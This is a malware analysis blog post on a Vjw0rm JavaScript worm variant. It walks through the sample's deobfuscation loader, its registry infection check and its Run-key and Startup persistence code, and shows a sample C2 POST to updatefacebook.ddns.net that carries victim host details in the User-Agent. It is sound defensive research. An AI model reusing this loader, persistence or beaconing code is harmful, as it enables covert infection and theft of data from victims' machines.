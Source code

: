 ```yaml
---
title: Mr. Robot Variant of Vjw0rm
description: An interesting analysis of a Vjw0rm variant.
toc: true
authors: c3rb3ru5d3d53c
tags:
  - vjw0rm
  - malware
  - analysis
categories: malware
date: '2020-02-01'
lastmod: '2020-02-01'
draft: false
---
```


I was monitoring __Any.Run__ when a __.js__ file peeked my interest due to the limited network traffic.

# Analysis

__Metadata:__
- Name: __1.js__
- MD5 : __3f438e857c45a4812dbfa331fd3b8011__

The first stage decrypts a long Unicode string then calls __eval__ on its result as seen in _Figure 1_.

```js
function y(o,h) {
    var t;var s="";
    var d=(o+"").split("");
    for (var i=0;i<d.length;i++){
        t=d[i].charCodeAt(0);
        s+=String.fromCharCode(256-+t+(+h));
    }
    return s;
}
WScript.Sleep(10000);
eval("eval(y(\"<long_unicode_string>\"");
```
_Figure 1: Deobfuscation routine_

When threat actor(s) use __eval__, most of the time I can easily bypass this with replacing it with __console.log__ and using __nodejs__ to do the heavy lifting for us.

In our case here this is exactily what I did with removing the sleep and replacing __eval__ with __console.log__.

After the script is run with modifications it is possible to obtain the pseudo deobfuscated code.

This means that the contents are still obfuscated to make it difficult for reading however we can identify some key functionality.

In this case most of the strings are stored in an array with the variable ___0x4ba2__.

This will have to be deobfuscated by hand as seen in _Figure 2_.

```js
try {
	U = sh[_0xb4af('0xd')](g[2]);
} catch (_0x55fd01) {
	var sv = fu[_0xb4af('0xe')]('\\');
	if (':\\' + sv[1] == ':\\' + wn) {
		U = _0xb4af('0xf');
		sh['RegWrite'](g[2], U, g[5]);
	} else {
		U = _0xb4af('0x10');
		sh[_0xb4af('0x11')](g[2], U, g[5]);
	}
}
Ns();
```
_Figure 2: Obfuscated result_

To achieve this I renamed the variable and simplified the code so its easily human readable.

__Vjw0rm__ will first check for the registry key __HKCU\\vjw0rm__ if the value is __TRUE__ or __FALSE__ to determine if the machine is already infected or not and will then run the __Install()__ routine as seen in _Figure 3_.

```js
try{
	is_installed = sh['RegRead']('HKCU\\vjw0rm');
} catch(_0x55fd01){
	var sv = fu['split']('\x5c');
	if(':\x5c' + sv[0x1] == ':\x5c' + script_name){
		is_installed = 'TRUE';
		sh['RegWrite']('HKCU\\vjw0rm', is_installed, 'REG_SZ');
	} else{
		is_installed = 'FALSE';
		sh['RegWrite']('HKCU\\vjw0rm', is_installed, 'REG_SZ');
	}
}
Install();
```
_Figure 3: Check if installed_

The install routine will copy the script to the __%TEMP%__ directory then establish persistence by setting the registry key __HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run\\WEW2BF0U0A__ with the value being the path to __vjw0rm__ as seen in _Figure 4_.

```js
function Install(){
	var worm_file = GetEnv('TEMP') + char_backslash + script_name;
	try{
		fs['CopyFile'](fu, worm_file, !![]);
	} catch(_0x349bb9){}
	try{
		sh['RegWrite']('HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run\\WEW2BF0U0A', '\x22' + worm_file + '\x22', 'REG_SZ');
	}catch(_0x58ded7){}
	try{
		var shell_app = GetActiveXObject(ACTIVEX_OBJECT_SHELL_APPLICATION);
		fs['CopyFile'](fu, shell_app['NameSpace'](0x7)['Self']['Path'] + '\x5c' + script_name, !![]);
	}catch(_0x151660){}
}
```
_Figure 4: Vjw0rm Persistence / Installation_

After installation has completed it will send a HTTP POST request to the C2 server __updatefacebook.ddns.net:6__.

Information of the victim machiine will be supplied to the C2 server by providing it in the __User-Agent__ header.

The traffic will look like the following:

```http
POST /Vre HTTP/1.1
Host: updatefacebook.ddns.net:6
User-Agent: MR_ROBOT_18d0-EEF8\COMPUTER-NAME\USERNAME\caption\FullName\\TRUE\TRUE\
```

The __User-Agent__ contains the campaign prefix, drive id, computer-name, username, caption, full name, TRUE/FALSE (if visual basic compiler present), TRUE/FALSE (if Vjw0rm is installed).

This variant has several command options, __Sc__ (write file to disk and run it), __Ex__ (run additional JSCript code), __Rn__ (rename the UUID), __Up__ (Run code w/ WScript), and __RF__ (run file).

Analysis files for this sample can be downloaded [here](/samples/2020-02-01-vjw0rm.zip).

The password to all ZIP archives on this site is __infected__.

Thank you,

# References
- [Any.Run](https://app.any.run/tasks/8953f3c1-6058-46ec-b3f4-03b46d3c39f9/)
- [VirusTotal](https://www.virustotal.com/gui/file/ea59411c081c6fa100b6d57f1dfa06221834dd22243272e8fd450e89655b0d49/detection)
